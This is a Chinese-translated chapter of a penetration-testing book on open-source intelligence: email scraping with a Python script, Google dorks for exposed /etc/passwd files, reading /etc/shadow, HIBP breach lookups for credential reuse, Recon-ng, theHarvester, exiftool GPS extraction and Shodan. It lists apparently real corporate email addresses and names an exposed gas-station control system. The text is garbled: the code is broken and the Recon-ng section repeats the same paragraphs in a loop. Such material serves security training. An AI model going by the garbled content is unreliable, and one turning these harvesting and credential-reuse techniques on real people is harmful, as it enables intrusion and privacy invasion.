你几乎肯定也会访问你客户的公共网站（或多个网站）。严格来说，这超出了 `OSINT` 的范畴，但向你的客户解释你遗漏了此类宝贵的信息源。虽然恶意黑客为了尽可能长时间不被发现可能会避免这一点，但你不应该有这种担心。

我们不会向你展示如何在上述提到的每一个地方寻找信息。我们将做的是介绍一些用于发现和枚举信息的工具和技术，你可以将它们应用于各种场景。现在我们将向你介绍一些可以帮助完成这一过程的工具和应用程序。

## OSINT 工具

以下工具在大多数黑客的 `OSINT` 工具箱中都很常见。我们将涵盖它们，`DNS` 相关的工具除外，我们将在下一章介绍：

- 搜索引擎（如 `Google`）
- `Gmail`
- 应用程序编程接口 (`APIs`)
- `Recon-ng`
- `TheHarvester`
- `FOCA`
- `Exiftool`
- `Mettego`
- `Shodan`
- 域名系统 (`DNS`)
- `Dig`、`WHOIS`

## 从 Google 抓取电子邮件地址

我们将从某些 `Python` 脚本开始，`goog-mail.py` 可以用于此目的。

这里我们有一个循环向 `google.com` 发送请求，指定域名。脚本随后解析 `Google` 的响应，寻找像电子邮件地址的字符串。换句话说，它们包含 `@` 符号后跟域名。

有各种脚本，并且从我们的资源下载：

```bash
wget --user=student https://www.hackerbook.com/files/goog-mail.py
```

如果你下载了这样的脚本，将检查源代码并确保它们没有做你不想要的事情。如果你不熟悉读代码不用担心；我们会解释一些，而且即使不是我们写的——至少经过了恶意意图审查。

这里是 `goog-mail.py` 的片段，显示了工具的关键部分：

```python
try:
    while page_counter_web < 50 :
        results_web = 'http://www.google.com/search?q=%40+str' + (domain_name) + '&hl=en&lr&ie=UTF-8&start=' + repr(page_counter_web) + '&sa=N'
        request_web = urllib2.Request(results_web)
        request_web = request_web.add_header('User-Agent','Mozilla/4.0 (compatible; MSIE 5.5; Windows NT 5.0)')
        opener_web = urllib2.build_opener()
        text = opener_web.open(request_web).read()
        emails_web = re.findall(r'[\w\.-]+@'+domain_name+')
        rips(text)
    for email_web in emails_web:
        d[email_web]=1
    uniq_emails_web=d.keys()
    page_counter_web = page_counter_web + 10
```

如果我们的目标是 `IBM` 的英国分公司，我们可能会如下运行脚本，传入 `uk.ibm.com` 字符串作为 `domain_name` 变量：

```bash
python2 goog-mail.py uk.ibm.com
```

我们现在正在搜索一家真实的公司，且没有经过他们的许可——我们需要这样做，因为我们只是在查询公共数据。让我们来看看脚本的输出可能是什么：

```
deenb@ibm.com
stuart.mcrae@ibm.com
gfhelp@uk.com
recruitment-isc@uk.com
BORRET@uk.com
Sharon.Bagshaw@uk.com
tammie.wilde-cic@uk.ibm.com
support_de@uk.com
gascyne@uk.com
jathan@uk.com
setj_@uk.com
JSMITH88@uk.com
UKCAT@uk.com
palbaner@uk.com
tim_donovan@uk.com
Bulbeck@uk.com
sam.seddons@uk.com
CCRUks@uk.com
TotallyGaming.com@bellbeck@uk.com
ichondhayay@uk.com
ibm_crc@uk.com
timothy.kelsey@uk.com
EmployeeClubMembership@uk.com
```

我们所做的只是在 `Google` 上搜索电子邮件地址，但这种简单的方法可以产生实用的结果。我们将这些结果保存在文本文件或电子表格中，因为我们以后可能想用它们来尝试访问系统。我们可能还会遇到关于这些个人的有用细节，在这种情况下，我们将它们添加到列表中。


# 第 4 章 开源情报收集

通过这种方式找到的电子邮件地址将成为垃圾邮件和恶意软件的常见目标，因为机器人可以使用这种简单的技术自动获取它们。因此，我们应该假设之前的 `uk.ibm.com` 电子邮件地址会定期收到大量垃圾邮件，而且实际上已经不再使用了！这一点是，永远不要仅依赖单一来源或脚本的输出。在这种简单的情况下，我们需要手动检查结果，并确保这些结果中的每一个看起来真的像电子邮件地址。（之前的列表中至少有一个不是的。）你完全可能通过这种方法找到属于你或你公司的、已公开的地址。

## Google Dorking（谷歌黑客指令）影子

Google 不仅可以被看作一个查询的数据库，还可以被看作你 OSINT（开源情报）工具箱中的工具之一。设计用于从 Google 暴露敏感信息的查询被称为 Google dork。Google dorking 或 Google hacking（不要与攻击 Google 混淆）可用于识别易受攻击的站点，并且只需在搜索框中输入 `inurl:/etc/passwd root:x:0:0` 即可实现。通过这样的搜索，你可能会发现配置不当的 Linux 或 UNIX 主机暴露了它们的密码文件（稍后详细介绍）。该搜索将返回在 URL 中包含 `/etc/passwd` 的结果，以及字符串 `root:x:0:root:root:/bin/bash` —— 这是 Linux 或 `passwd` 文件中始终存在的一行。如果你进行此搜索，你可能会发现很多 Linux 工具，因为这是一个常见的例子。

> **警告** 如果你在路上遇到一个被暴露的 Web 服务器，请不要点击搜索结果链接，因为这样做可能被解释为非法行为！通过查看 Google 搜索中的信息，数据不会被发送到目标主机。然而，一旦你点击返回的搜索结果，你就会向目标计算机发送信息。这在你的国家可能触犯法律，除非你拥有目标系统所有者的许可，否则应避免。

## Passwd 和 Shadow 文件的简要介绍

虽然 Linux 或 UNIX `passwd` 文件通常允许系统上的任何人读取（并由 `root` 用户写入），但如果连接到互联网就能看到它，那就不是好消息。尽管 `passwd` 文件不太包含密码哈希值（你需要 `/etc/shadow`），但它将包含该系统的用户名，并可能在 GECOS 字段持有额外信息。该术语追溯到 60 年代开发的一种操作系统，但今天它指的是存储在此 `passwd` 文件中的额外信息。这可能包含用户的全名和其他个人身份识别信息。

## SHADOW FILES（影子文件）

曾经，UNIX `passwd` 文件包含注册在系统上的用户名和密码。现代 Linux 和 UNIX 发行版不再允许访问包含用户凭据的文件，而是同时使用 `passwd` 文件和 `shadow` 文件。现在密码存储在 `shadow` 文件。当你登录 Linux 设备时使用 `shadow` 文件的一个简单例子：你输入的密码会被哈希处理，并与 `shadow` 文件中存储相应的哈希值进行比较。如果两个值匹配，你就成功登录。

## 典型密码文件与 Shadow 文件示例

我们在整书中都会提到密码文件和 `shadow` 文件，因此快速查看每个文件的典型示例并解释在公开发现此类信息的意义和相关性是有意义的。在 Linux 发行版的终端中，你可以尝试这样查看 `shadow` 文件：

```
cat /etc/shadow
```

在正常情况下，除非你是 `root` 用户，否则你会看到以下消息：

```
cat: /etc/shadow Permission denied
```

一旦你成为 `root` 用户，你就拥有查看该文件所需的权限。这里是一个典型密码文件的摘录，它通常不需要 `root` 权限即可查看：

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sync:/bin:/bin/sync
games:x:5:5:games:/usr/games:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
www-data:x:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:backup:/var/backups:/usr/sbin/nologin
admin:x:1000:1000:admin:/home/admin:/bin/bash
```

表中的每个字段都由冒号（`:`）分隔。以下是字段含义：

| 用户名 | 密码占位符 | UID | GID | GECOS/注释 | 主目录 | Shell |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| root | x | 0 | 0 | root | /root | /bin/bash |
| daemon | x | 1 | 1 | daemon | /usr/sbin | /usr/sbin/nologin |
| bin | x | 2 | 2 | bin | /bin | /usr/sbin/nologin |
| sys | x | 3 | 3 | sync | /bin | /bin/sync |
| games | x | 5 | 5 | games | /usr/games | /usr/sbin/nologin |
| mail | x | 8 | 8 | mail | /var/mail | /usr/sbin/nologin |
| news | x | 9 | 9 | news | /var/spool/news | /usr/sbin/nologin |
| www-data | x | 33 | 33 | www-data | /var/www | /usr/sbin/nologin |
| backup | x | 34 | 34 | backup | /var/backups | /usr/sbin/nologin |
| admin | x | 1000 | 1000 | admin | /home/admin | /bin/bash |

*（注：原文表格 OCR 文本严重损坏；此处根据标准的 `/etc/passwd` 格式重建了结构。）*

当你登录 Linux 设备时使用 `shadow` 文件的一个简单例子：你输入的密码会被哈希处理，并与 `shadow` 文件中存储相应的哈希值进行比较。如果两个值匹配，你就成功登录。

## 公共库与物理安全

公共库。当你开始考虑物理安全（其细节超出了本书的范围）时，你甚至可能会找到物理建筑本身的蓝图。你应该检查像 Ofcom（英国）或联邦通信委员会（美国）这样的来源、无线监管机构，以及任何其他可能保留公司活动公共记录的监管机构。记住，你正试图对你的目标进行彻底的研究，目标是尽可能地找到可能帮助你作为攻击者的信息。

## 你是否已经被“攻破（Pwned）”了？

“pwned”一词源于黑客/游戏文化，是单词“owned（拥有）”的谐音。获取了密码或其他信息的访问权的黑客可能会说他们已经“拥有（owned）”了目标，因为他们对信息或产生这些信息的系统拥有了控制权。它的意思是某人对系统拥有控制权，或者在游戏文化中，意味着他们彻底击败了对手。

如果你还没有访问过，请务必访问这个网站：`havebeenpwned.com`。Have I Been Pwned (HIBP) 是 Troy Hunt 提供的一项服务，允许互联网用户检查他们之前用于访问在线服务的凭据是否曾在数据泄露中泄露。在线服务、网站、社交媒体网络和组织通常经常被黑客攻击，信息会在网上共享。有时，负责攻击的攻击者会将（以某种方式提供）被泄露数据库的内容出售给公众。Web 的特性决定了你可以在你喜爱的点对点网络上找到包含成千上万百万用户名及其相应密码哈希的巨大文件。HIBP 汇总了这些泄露数据，并允许检查你的凭据是否存在于其收集的任何泄露中。该服务尝试获取尽可能多的泄露数据，并供你搜索自己的账户，以查看你是否包含在任何已泄露的数据中。如果你在 HIBP 网站的正确表单输入你经常使用的电子邮件地址，你可能会看到该地址（以及可能的其他敏感信息）已出现在多个数据集中，源于之前泄露的服务，如 Dropbox、LinkedIn 和 Adobe。如果是这样，建议你更改所有这些网站以及你使用相同密码的其他地方的密码。此时应该假设你为这些服务使用的用户名和密码对已落入恶意分子之手。

作为黑客，我们可以使用 HIBP 来检查目标机构的员工是否曾有细节公开泄露的情况。更好情况下，我们可以利用 HIBP API 来自动化此过程；你需要一个 API 密钥来使用 HIBP API（更多细节请见 `havebeenpwned.com/API/Key`）。一旦你有了 API 密钥，可以使用以下命令配合使用：

如果你发现 `person_a@example.com` 和 `person_xyz@example.com` 都在泄露中出现，例如 2016 年的 LinkedIn 泄露（当时有 1.17 亿个电子邮件和密码哈希在网上公开），你就可以获取该泄露数据的副本及其内部记录。然后你就可以尝试破解这些密码哈希，以证明“我们都是凡夫俗子”。

拼图的最后一块是在许多地方使用同一个密码，这取决于你如何促进更好的安全卫生习惯。因此，我们可以获取任何电子邮件地址和密码组合并揭露它们——在我们的活跃测试阶段——以尝试登录目标系统。虽然我们才刚刚开始测试，但我们手中可能已经掌握了公司网络的钥匙。这在 Hacker House 曾多次起关键作用，通常会暴露被忽略的账户，例如带有原始密码如 `helpdesk` 和 `press` 的帮助台或新闻稿账户。密码是黑客的好朋友——找到一个就相当于找到打开锁上门的钥匙，然而这把钥匙可能打开不止一扇门！

> **注意** HIBP 使用 API 速率限制来防止这项优秀服务的滥用。在带有循环的简单脚本中使用 `curl`（之前演示过的命令行 Web 工具），并在每次请求后暂停几秒钟，这将允许你查询许多用户的记录，并确定他们是否包含在任何公开已知的数据泄露中。你可以使用 `grep`（一种模式搜索工具）从响应中定位有用信息。如果你不熟悉使用 `curl` 和 `grep` 等工具，不要担心；你将在未来的章节中探索它们。事实上，记录和搜索数据集是一项你可能想要回顾的练习。HIBP 网站包含 API 使用指南，因此在探索此过程之前，请确保你已阅读这些指南以及包含的示例。

有一种很大的可能性，如果你目标是公司内的大量个人，你很可能会通过这个过程在其中至少一个人身上发现一些有用信息，仅仅因为过去十年泄露的数据量极其巨大。

## OSINT 框架 Recon-ng

你看到了一些独立工具和脚本，它们虽然能为你提供极佳的信息，但在处理大量请求或数据时会变得枯燥且费力。在你的情报工作中有很多任务需要完成，其中许多是重复性的，你的输出数据需要被组织。幸运的是，其他人意识到这一点并找到了让黑客工作更容易的方法——不是通过编写脚本，而是通过开发完整的框架。用于进行 OSINT 的工具是 Recon-ng，由 awesome53 开发。Recon-ng (`https://github.com/mic53/recon-ng`) 是一个基于模块的框架，提供了友好的界面。你收集的信息存储在 SQL 数据库中。Recon-ng 类似于 Metasploit，但它是为侦察而非攻击设计的。它的学习曲线很陡，但一旦熟悉，它就是一个强大的工具。当你运行 Recon-ng 时，可能会看到这样的消息：

```
!] 'shodan_api' key not set.
```

这些只是强调你尚未设置各种网站的 API 密钥。任何新工具最好的总是输入 `help`。Recon-ng 的启动提示符如下：

```
[recon-ng] [default] >
```

你也可以输入 `<command>` 来查找特定命令的用法。例如，`workspaces` 输出：

```
Manages workspaces

Usage: workspaces <create|list|select>
```

现在让我们创建一个名为 `hackerhouse` 的工作空间：

```
workspaces create hackerhouse
```

我们现在使用该工作空间，我们收集的任何情报将存储其中。你会看到 Recon-ng 的提示符发生变化，反映出你正在工作的空间。你可以如下查看工作空间：

```
workspaces list
```

Recon-ng 有许多可用模块，但它们需要安装。你可以使用命令安装所有模块：

```
marketplace install all
```

可以通过输入 `modules load` 后跟模块名称来选择模块。在某些情况下，你可能需要指定模块路径。一旦选择了模块，可以输入 `info` 查看模块详情。要查看大量的 Recon-ng 模块，输入 `modules search`，你会看到类似下面的列表：


# Discovery

- `discovery/info_disclosure/cache_snoop`
- `discovery/info_disclosure/interesting_files`

# Exploitation

- `exploitation/injection/command_injector`
- `exploitation/injection/xpath_bruter`

# Import

- `import/csv_file`
- `import/list`

# Recon

- `recon/companies-contacts/bing_linkedin_cache`
- `recon/companies-contacts/jigsaw/saw_usage`
- `recon/companies-contacts/jigsaw/purchase_contact`
- `recon/companies-contacts/jigsaw/search_contacts`
- `recon/companies-multi/github_miner`
- `recon/companies-multi/whois_miner`
- `recon/contacts-contacts/mailtester`
- `recon/contacts-contacts/mangle`
- `recon/contacts-contacts/unmangle`
- `recon/contacts-credentials/hibp_breach`
- `recon/contacts-credentials/hibp_paste`
- `recon/contacts-domains/migrate_contacts`
- `recon/contacts-profiles/fullcontact`
- `recon/credentials-credentials/adobe`
- `recon/credentials-credentials/bozocrack`
- `recon/credentials-credentials/hashes_org`
- `recon/domains-contacts/metacrawler`
- `recon/domains-contacts/pgp_search`
- `recon/domains-contacts/whois_pocs`
- `recon/credentials/pwedlist/account_creds`
- `recon/credentials/pwedlist/api_usage`
- `recon/credentials/pwedlist/domain_creds`
- `recon/credentials/pwedlist/domain_ispwned`
- `recon/credentials/pwedlist/leak_lookup`
- `recon/credentials/leaks_dump`
- `recon/domains/brute_suffix`
- `recon/hosts/bing_domain_api`
- `recon/hosts/bing_domain_web`
- `recon/hosts/brute_hosts`
- `recon/hosts/builtwith`
- `recon/hosts/certificate_transparency`
- `recon/hosts/google_site_api`
- `recon/hosts/google_site_web`
- `recon/domains/hackertarget`
- `recon/hosts/mk_spf_ip`
- `recon/netcraft`
- `recon/hosts/shodan_hostname`
- `recon/hosts/ssl_san`
- `recon/hosts/threatcrowd`
- `recon/vulnerabilities/ghdbd`
- `recon/vulnerabilities/punkspider`
- `recon/vulnerabilities/xsed`
- `recon/vulnerabilities/xxsposed`
- `recon/hosts-domain/migrate_hosts`
- `recon/hosts/hosts/bing_ip`
- `recon/hosts/freegeoip`
- `recon/hosts/ipinfofdb`
- `recon/hosts/resolve`
- `recon/hosts/reverse_resolve`
- `recon/hosts/ssltools`
- `recon/locations/migrate_hosts`
- `recon/hosts/shodan_ip`
- `recon/locations-locations/geocode`
- `recon/locations-locations/reverse_geocode`
- `recon/locations-pushpins/flickrr`
- `recon/locations-pushpins/picasa`
- `recon/locations-pushpins/shodan`
- `recon/locations-pushpins/twitter`
- `recon/locations-pushpins/youtube`
- `recon/netblocks-companies/whois_orgs`
- `recon/netblocks-hosts/reverse_resolve`
- `recon/netblocks-hosts/shodan_net`
- `recon/netblocks-ports/census_2012`
- `recon/netblocks-ports/censysio`
- `recon/profiles-hosts/migrate_ports`
- `recon/profiles-contacts/dev`
- `recon/profiles-contacts/github_users`
- `recon/profiles-profiles/namechk`
- `recon/profiles-profiles/profiler`
- `recon/profiles-profiles/twitter_mentioned`
- `recon/profiles-profiles/twitter_mentions`
- `recon/repositories/github/repos`
- `recon/repositories/profiles/commits`
- `recon/repositories/vulnerabilities/gists_search`
- `recon/repositories/vulnerabilities/github_dorks`

# 第 4 章 开源情报收集

## 报告

- `reporting/csv`
- `reporting/html`
- `reporting/json`
- `reporting/xml`

首先，让我们来看 `profiler` 模块，你可以通过输入 `modules load profiler` 来使用它，该模块的路径如上一个列表所示。实际上，在这种情况下，你只需要输入 `modules load profiler`，Recon-ng 就会知道你想使用哪个模块。加载该模块然后输入 `info`。

```
modules load profiler
info
```

这将为你提供有关所选模块的信息。在 `profiler` 模块中，将得到以下内容：

**Name：** OSINT 资料收集器

**Author:** Micah Hoffman (@WebBreacher)

**Version：** 1.0

**Description：** 从表中提取每个用户名，并在多个网站上搜索这些用户。有效站点列表来自项目 https://github.com/WebBreacher/WhatsMy

| 名称 | 当前值 | 必须 | 描述 |
| :--- | :--- | :--- | :--- |
| SOURCE | default | 是 | 输入（详情请见 'show info'） |
|  |  |  | 表示单个输入 |
|  |  |  | `<path>` 包含输入列表的文件路径 |
|  |  |  | `query` `<sql>` 数据库查询 |

- 注意：如果速度较慢，可以增加全局超时选项。
- 警告：在代理服务器后使用此模块可能会导致其中某些网站被屏蔽。

此个人资料收集器会在互联网上搜索属于目标个人的个人资料，从那里抓取信息并将其存储在 SQLite 数据库中。如果你还不熟悉数据库，不要担心；书中有一整章章节专门讲解如何破解数据库。

注意之前的屏幕输出，你看到 SOURCE 后面跟着 Current（当前标题）。如果你查看 Options（选项），你会发现默认选项是一个结构化查询语言 (SQL) 查询：

`SELECT DISTINCT username FROM profiles WHERE username IS NOT NULL`

此查询将从一个名为 `profiles` 的表中返回唯一的用户名，该表通过使用 `show profiles` 命令当前存储在表中。这将导致“No data returned”（未返回数据）消息，因为你还没有填充该表或提供任何数据。

现在，尝试向表中添加一个个人资料。将 `<Username>` 替换为目标用户名或电子邮件地址：

```
db insert profiles <Username>
```

由于我们没有设置 `SOURCE`，Recon-ng 将使用默认设置。你可以通过 `options set` 来设置它，例如：

```bash
options set SOURCE https://example.com
```

现在再次运行 `show profiles`。你会看到“No data returned” 消息，这是因为你还没有填充该表或提供任何数据。

```
db insert profiles <Username>
```

现在，尝试向表中添加一个个人资料。将 `<Username>` 替换为目标用户名或电子邮件地址：

```
db insert profiles <Username>
```

现在再次运行 `show profiles`。你会看到“No data returned” 消息，这是因为你还没有填充该表或提供任何数据。

```
db insert profiles <Username>
```

现在，尝试向表中添加一个个人资料。将 `<Username>` 替换为目标用户名或电子邮件地址：

```
db insert profiles <Username>
```

现在，再次运行 `show profiles`。你会看到“No data returned” 消息，这是因为你还没有填充该表或提供任何数据。

```
db insert profiles <Username>
```

现在，尝试向表中添加一个个人资料。将 `<Username>` 替换为目标用户名或电子邮件地址：

```
db insert profiles <Username>
```

现在，再次运行 `show profiles`。你会看到“No data returned” 消息，这是因为你还没有填充该表或提供任何数据。

你可以根据访问的网站发现关于某个个人的大量信息，其中某些搜索包含成人内容，例如娱乐网站或色情网站。发现可能有许多网站也抓取了你的数据以扩充其用户量，而这些用户通常在不知情的情况下成为了其服务的用户，这可能会令人不骨悚然。

## Recon-ng 内部

Recon-ng 是一个实用的工具，但让我们检查它的数据实际上存储在何处。假设你在 Kali 中以 root 用户身份运行 Recon-ng（不建议这样做——你应该始终以最小权限运行命令），那么 Recon-ng 将将工作空间作为目录存储在 `/root/.recon/workspaces` 中。让我们查看其中：

```
ls ~/.recon-ng/workspaces/hackerhouse
```

你应该会找到一个由 Recon-ng 在创建工作空间时生成的 `data.db` 文件。这是什么类型的文件？使用 `file` 命令来查找。

```
file ~/.recon-ng/workspaces/hackerhouse/data.db
/root/.recon-ng/workspaces/hackerhouse/data.db: SQLite 3.x database, user version 8, last written using SQLite version 3021000
```

如果是，Recon-ng 默认存储其数据，并且这是一个 SQLite 数据库。在这个数据库案例中，工作空间是 `hackerhouse`。让我们使用 SQLite 浏览器（启动 `sqlitebrowser` 命令）查看该数据库，如图 4.3 所示。



图 4.3：SQLite 浏览器

使用 GUI，你现在可以看到此数据库的架构，并根据需要探索其中包含的数据。你还可以导出这些信息将其添加到报告中或与客户共享。

## 网页收割

现在让我们检查 Python 脚本 `theHarvester.py`（另一个是 Kali Linux 默认安装的工具）。不带任何参数运行 `theHarvester` 命令会显示其用法信息，包括一个示例。让我们尝试使用该工具，以 `google.com` 作为域名，并指定 `google` 为搜索引擎。我们将结果数量限制在 50 个。

```
theHarvester -d google.com -b google -l 50
```

我们本希望能找到电子邮件地址，但结果仍然很有趣。

```
****************************************************************
*                                                              *
*  _  _  _  _  _  _  _  _  _  _  _  _  _  _  _  _  _  _  *
* |\/|\/|\/|\|\|\|\|\/|\/|\/|\/|\/|\/|\/|\|\|\|///|\|\/|\|\*
*                                                              *
*                                                              *
*                                                              *
*                                                              *\n*                                                              *
*                                                              *
*                                                              *\n*                                                              *
*                                                              *
*                                                              *
*                                                              *
*                                                              *\n*                                                              *
* theHarvester 3.1.0
* Coded by Christian Martorella
* Edge-Security Research
* cmartorella@edge-security.com
****************************************************************
```

```
[*] Target: google.com

[*] Searching Google.
    Searching 0 results.

[*] No IPs found.

[*] No emails found.

[*] Hosts found: 13

account.google.com:172.217.4.110
accounts.google.com:172.217.4.77
adservice.google.com:172.217.4.34
adsettings.google.com:172.217.4.110
apis.google.com:172.217.4.46
classroom.google.com:216.58.192.142
developer-google.com:172.217.4.110
maps.google.com:172.217.0.14
news.google.com:172.217.4.206
ogs.google.com:216.58.192.142
policies.google.com:172.217.4.46
support.google.com:216.58.192.142
www.google.com:172.217.0.4
```

如你所见，`harvester.py` 有效获取了你指定的域名主机名和 IP 地址。构建这样的主机列表至关重要，而我们还没有做很多。在第 5 章“域名系统系统”中，你将学习更多有效地执行此操作的方法。

## 文档元数据


# 第 4 章 开源情报收集

典型的公司或组织会觉得有（或被迫）发布文档，通常通过其网站向各种利益相关者或客户提供这些文档。我们讨论的文档可能是年度报告、季度销售数据、手册、职位申请表、员工手册等。你会在 PDF、Microsoft Word 文档中找到这些文档；这些文档通常会泄露发布者已知的信息。

可交换图像格式 (`Exif`) 数据可以包含用户名、日期时间和 GPS 坐标等信息。你会在 PDF、Microsoft Word 文档中找到这些文档；这些文档通常会泄露发布者已知的信息。

某些元数据提取工具可以在 Linux 发行版的包仓库中找到，值得尝试它们。这可以产生意想不到的结果，并揭示发布者认为已经删除的信息。例如，在本文中，以下网站展示了英国某大学的几名警员：

`www.northampton.ac.uk/news/new-police-team-meets-staff-and-students-at-the-university-of-northampton`

通过下载 `www.hackerhouse.com/files/image.jpeg` 图像并将其参数传递给 `Exiftool`，你可以了解关于这张照片的额外信息。

```
exiftool image.jpeg
```

运行此命令后，`Exiftool` 输出了以下信息：

```
ExifTool Version Number : 11,30
File Name : image.jpeg
Directory : :
File Size : 2.6 MB
File Modification Date/Time : 2018:10:03 09:55:22-07:00
File Access Date/Time : 2019:03:28 16:51:00-07:00
File Inode Date/Time : 2019:03:28 17:03:54-07:00
File Permissions : rw-r--r--
File Type : JPEG
File Type Extension : Jpeg
MIME Type : image/jpeg
JFIF Version : 1.01
Exif Byte Order : Big-endian (Motorola, MM)
Make : Apple
Camera Model Name : iPhone 6
X Resolution : 72
Y Resolution : 72
Resolution Unit : inches
Software : 11.3,1
Modify Date : 2018:09:27 11:21:35
Exposure Time : 1/898
F Number : 2.2
Exposure Program : Program AE
ISO : 32
Exif Version : 0221
Date/Time Original : 2018:09:27 11:21:35
Create Date : 2018:09:27 11:21:35
Components Configuration : Y, Cb, Cr,
Shutter Speed Value : 1/898
Aperture Value : 2.2
Brightness Value : 9.196232339
Exposure Compensation : 0
Metering Mode : Multi-segment
Flash : Off, Did not fire
Focal Length : 4.2 mm
Subject Area : 1631 1223 1975 1077
Run Time Flags : Valid
Run Time Value : 30645718499916
Run Time Scale : 1000000000
Run Time Epoch : 0
Acceleration Vector : -0.9815188172 0.03043882641-0.1194911988
HDR Image Type : Unknown (2)
Sub Sec Time Original : 901
Sub Sec Time Digitized : 901
Flashpix Version : 0100
Color Space : sRGB
Exif Image Width : 3264
Exif Image Height : 2448
Sensing Method : One-chip color area
Scene Type : Directly photographed
Custom Rendered : Unknown (2)
Exposure Mode : Auto
White Balance : Auto
Focal Length In 35mm Format : 29 mm
Scene Capture Type : Standard
Lens Info : 4.15mm f/2.2
Lens Mark : Apple
Lens Model : iPhone 6 back camera 4.15mm f/2.2
GPS Latitude Ref : North
GPS Long Ref : West
GPS Altitude Ref : Above Sea Level
GPS Time Stamp : 10:21:34
GPS Speed Ref : km/h
GPS Speed : 0
GPS Direction Ref : True North
GPS Direction : 104.5822785
GPS Dest Bearing Ref : True North
GPS Dest Bearing : 104.5822785
GPS Date Stamp : 2018:09:27
GPS Horizontal Positioning Error : 5 m
XMP Toolkit : XMP Core 5.4
Creator Tool : 11.3.1
Date Created : 2018:09:27 11:21:35
Current IPTC Date : d41dc8c9f98f00b2e9809ec842e
IPTC Digest : d41dc8c9f98f00b2e9809ec842e
Image Width : 3264
Image Height : 2448
Encoding Process : Baseline, Huffman
Bits Per Sample : 8
Color Components : 3
YCr Sub Sampling : YCbCr:4:2:0
Aperture : 2.2
GPS Altitude : 63.3 m Above Sea Level
GPS Date/Time : 2018:09:27 10:21:34
GPS Latitude : 52 deg 55.19 N
GPS Longitude : 0 deg 26.06 W
GPS Position : 52 deg 55.19 N, 0 deg 26.06 W
Image Size : 3264x2448
Megapixels : 8
Run Time Since Power : 8:30:46
Scale Factor To 35mm Equivalent : 7.0
Shutter Speed : 1/898
```

当然，其他社交媒体网站也是，但 `LinkedIn` 是开源情报（`OSINT`）的极佳数据源。`LinkedIn` 经常更新其界面，此处描述的工具在未来可能会失效。尽管如此，替代方案会频繁出现。

请记住，取决于你和客户达成的约定，找到用户的电子邮件地址不太可能是故事的结束。在获得适当的情况下，你可以向他们发送恶意软件或其他文件，这些文件可能帮助你访问内部系统。你可以使用社会工程技术从用户那里获取更多信息，例如密码。电话号码也很有用，令人惊讶的是，来自 IT 帮助台的虚假电话竟然经常能让某人泄露敏感信息。如果你能通过电子邮件对某人进行社会工程攻击，说服他们执行某些操作（例如访问或运行命令来修复他们那个恼人的打印机问题），你就找到了另一种让客户网络被攻破的途径。

## Shodan

在本章的开始，我们提到要寻找任何以某种方式连接到互联网并属于目标网络的设备。如果说有一种工具非常擅长做这一点，那就是 `Shodan` (`www.shodan.io`)。`Shodan` 是一个针对 IP 连接设备的搜索引擎（换句话说，是针对物联网，而不仅仅是万维网）。它提供对 IP 地址的历史扫描和按需扫描，并维护一个包含主机及其开放端口和服务的数据库。它扫描互联网，并拥有命令行工具和 `API`。除了列出开放端口和服务端外，`Shodan` 还会从它们中收集数据；例如，连接互联网的燃料泵的读数，甚至是来自未受保护的网络摄像头的截图！

`Shodan` 是一项按查询收费的免费服务，你可以免费使用该服务并返回有限数量的主机名和或 IP 地址，你可以通过目前提到的其他技术或其他手段确定你可能认为这些地址与你的客户有关。`Shodan` 可用于遍历可疑主机列表，并查看关于它们已公开公开的哪些信息。`Hacker House` 通过这种方式发现了大量信息，包括那些从初就不应该连接到互联网的设备和系统。`Shodan` 在发现 `SSL` 证书时会存储它们，这些证书可以揭示更多主机名。

你可以构建一个计算机系统列表以及运行在上面的开放端口和服务，而无需触碰自己的端口扫描工具。`Shodan` 还可以被用于扫描 IP 范围，从而掩盖探测源！


# 第 4 章 开源情报收集

在我们的培训课程演示 `Shodan` 时，我们喜欢使用的例子是汽油。我们现在搜索一下，你就会知道为什么。在几个结果后，地址为 `50.127.106.97`，它有两个开放端口。其中一个是传输控制协议 (`TCP`) 端口 `10001`，它为 `Shodan` 以下内容：

```
I20100               11-07-18  8:14 AM

218449 GASOLINE ALLE
3966 SR 37
MITCHELL IN 47466
```

| 产品 | TC 总体积 | 燃隙 | 高度 | 水分 | 温度 |
|---|---|---|---|---|---|
| 无铅油 | 5117 | | 6883 | 41.25 | 0.00 | 60.05 |
| 高级油 | 2140 | 2131 | 3860 | 35.63 | 0.00 | 65.67 |
| 柴油 | 5641 | 5635 | 44.32 | 0.00 | 70.54 |
| 煤油 | 1240 | 1275 | 1760 | 31.09 | 0.00 | 68.60 |
| 农业柴油 | 1836 | 1826 | 1164 | 41.83 | 0.00 | 71.79 |
| DEF | 1560 | 1560 | 764 | 44.20 | | 59.39 |

`Shodan` 将此称为自动化箱，这就是它的样子。如果你定位了印第安纳州米切尔（Mitchell）某加油站的某些读数。汽油巷（Gasoline Alley），加油泵的地址也在那里。如果是你的当地加油站，你可以在触发之前确保有足够的燃料满足你的需求。这是一个公开暴露的工业控制系统的绝佳例子，它从初就不应该连接到互联网。

你可以找到连接到互联网的智能家居，其所有者无意中暴露了管理界面，允许你读取他们热水缸的温度，并查看他们的安全摄像头。通常，你会发现这些资源受默认密码或无密码保护。

你也可以搜索像 `uk.ibm.com` 这样的域名。以下搜索结果显示了在编写时 `TCP` 端口 `25` 开放的一些主机。这里是 `Shodan` 记录的输出片段：

> 20 ESMTP SMTP Gateway: 仅限授权使用！违者将被起诉；2018年11月6日 星期二 19:09:34 -0000
>
> 20 ESMTP SMTP Gateway: 仅限授权使用！违者将被起诉；2018年11月6日 星期二 19:09:34 -0000

## 双步验证

